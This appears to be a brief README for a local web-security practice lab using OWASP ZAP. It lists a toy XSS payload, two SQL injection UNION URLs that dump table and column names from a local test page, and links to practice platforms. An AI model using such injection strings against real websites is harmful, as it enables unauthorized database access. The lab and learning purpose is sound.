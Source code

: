 # Owasp Zap testing

## Run web application
```
./script/build.sh
./script/deploy.sh
```

## Payload to exploit xss
```
<img src=trung alert("hello world") />
```

## Payload to exploit sql injection by union with information schema
```
Dump all tables: http://0.0.0.0/sqliUnion.php?id=11+union+select+1,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database() 
Dump all columns in table: http://0.0.0.0/sqliUnion.php?id=11+union+select+1,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27
```

## Environment to practice 
```
https://www.root-me.org/?page=news&lang=en -> web client and web server
https://tryhackme.com/dashboard -> network
https://www.hackthebox.com/ -> web and network
https://ctf.hacker101.com/ -> web
```

## Payload of all things
`https://github.com/swisskyrepo/PayloadsAllTheThings`
